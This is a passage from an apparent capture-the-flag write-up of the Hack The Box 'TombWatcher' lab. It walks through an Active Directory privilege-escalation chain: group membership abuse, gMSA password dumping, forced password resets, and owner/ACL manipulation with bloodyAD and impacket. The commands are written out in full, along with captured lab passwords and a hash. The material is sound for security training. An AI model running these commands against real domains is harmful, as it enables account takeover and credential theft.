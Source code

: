 **Alfred's Password:** `basketball`

### 5. Group Membership Abuse: Alfred → Infrastructure

**Attack:** Add Alfred to Infrastructure group

```bash
# Add Alfred to Infrastructure group
bloodyAD -u 'alfred' -p 'basketball' -d tombwatcher.htb --dc-ip 10.10.11.72 add groupMember "INFRASTRUCTURE" "alfred"

# Verify membership
net rpc group members "INFRASTRUCTURE" -U "tombwatcher.htb"/"alfred"%"basketball" -S "dc01.tombwatcher.htb"
```

 Alfred successfully added to Infrastructure group.

### 6. GMSA Password Retrieval

**Attack:** Abuse Infrastructure group membership to read GMSA password

```bash
# Dump GMSA password
python3 gMSADumper.py -u alfred -p basketball -d tombwatcher.htb
```

**GMSA Credentials:**
- `ansible_dev$:::1c37d00093dc2a5f25176bf2d474afdc`

### 7. Password Reset: ANSIBLE_DEV$ → sam

**Attack:** Use GMSA account to reset sam's password

```bash
# Reset sam's password
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'ansible_dev$' -p :1c37d00093dc2a5f25176bf2d474afdc set password 'SAM' 'Password123!'
```

### 8. Owner Manipulation: sam → john

**Attack:** Abuse WriteOwner to take control of john's object

```bash
# Change john's owner to sam
impacket-owneredit -action write -target 'john' -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password123!' -dc-ip 10.10.11.72

# Grant WriteMembers permission
impacket-dacledit -action write -rights 'WriteMembers' -principal "john" -target-dn "CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB" 'tombwatcher.htb'/'sam':'Password123!' -dc-ip 10.10.11.72

# Grant GenericAll permission
bloodyAD --host 10.10.11.72 -d "tombwatcher.htb" -u "sam" -p 'Password123!' add genericAll "john" "sam"

# Reset john's password
bloodyAD --host 10.10.11.72 -d "tombwatcher.htb" -u "sam" -p 'Password123!' set password "john" 'johnny123'
```
